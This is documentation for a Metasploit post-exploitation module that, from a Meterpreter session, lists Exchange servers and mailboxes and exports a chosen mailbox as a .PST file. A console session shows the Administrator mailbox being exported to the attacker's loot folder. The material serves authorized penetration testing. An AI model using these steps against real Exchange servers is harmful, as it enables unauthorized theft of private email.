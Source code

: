 ## Vulnerable Application

  This module will gather information from an on-premise Exchange Server running on the target machine.

  Two actions are supported:

  `LIST` (default action): List basic information about all Exchange servers and mailboxes hosted on the target.

  `EXPORT`: Export and download a chosen mailbox in the form of a .PST file, with support for an optional filter keyword.

  It requires that the effective Meterpreter session user be assigned to the "Organization Management" role group.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session on a Windows target running an Exchange Server
  3. Do: `use post/windows/gather/exchange`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

### FILTER

  Filter to use when exporting a mailbox.

  See [Microsoft documentation](https://docs.microsoft.com/en-us/exchange/filterable-properties-for-the-contentfilter-parameter)
  for valid values.

  Unused for LIST action, optional for EXPORT action.

### MAILBOX

  Mailbox to export. Can be a mailbox's email address or display name.

  Unused for LIST action, required for EXPORT action.

### DownloadSizeThreshold

  The file size of export results after which a prompt will appear to confirm the download, in MB.

  Option takes a float number. Default value is 50.0.

### SkipLargeDownloads

  If set to `true`, automatically skip downloading export results that are larger than `DownloadSizeThreshold` (don't show prompt).

  Set to `false` by default.

## Extracted data

### LIST action
  For every server:

  - Server name
  - Server version
  - Server role
  - For every mailbox in server:
    - Mailbox display name
    - Mailbox email addresses
    - Mailbox creation date
    - Mailbox address list membership
    - For every folder in mailbox:
      - Folder Path
      - Items in folder
      - Folder size
      - Newest item received date

### EXPORT action
  .PST file with the chosen mailbox's mail items

## Scenarios

### Windows Server 2012 R2 with On-Premise Exchange Server 2010

```
msf exploit(multi/handler) > use post/windows/gather/exchange
msf post(windows/gather/exchange) > set SESSION 1
SESSION => 1
msf post(windows/gather/exchange) > run -a LIST

[+] Exchange Server is present on target machine
[+] PowerShell is present on target machine
[+] Listing reachable servers and mailboxes:
----------
Server:
- Name: WIN-49S7K9MJUAF
- Version: Version 14.3 (Build 123.4)
- Role: Mailbox, ClientAccess, HubTransport
-----
Mailboxes:
---
- Display Name: Administrator
- Email Addresses: SMTP:Administrator@example.corp
- Creation date: 12/02/2020 01:01:43
- Address list membership: \Mailboxes(VLV) \All Mailboxes(VLV) \All Recipients(VLV) \Default Global Address List \All Users
- (All folders are empty)
---

[...]

[*] Post module execution completed
msf post(windows/gather/exchange) > set MAILBOX "Administrator"
MAILBOX => Administrator
msf post(windows/gather/exchange) > run -a EXPORT

[+] Exchange Server is present on target machine
[+] PowerShell is present on target machine
[+] Exporting mailbox 'Administrator':
Exporting mailbox...
. Queued
. Queued
. Queued
. InProgress
. Completed
Exporting done
[*] Resulting export file size: 0.26 MB
[+] PST saved in: /home/user/.msf4/loot/20210309120402_default_192.168.1.70_PST_427036.pst
[*] Post module execution completed
msf post(windows/gather/exchange) >
```
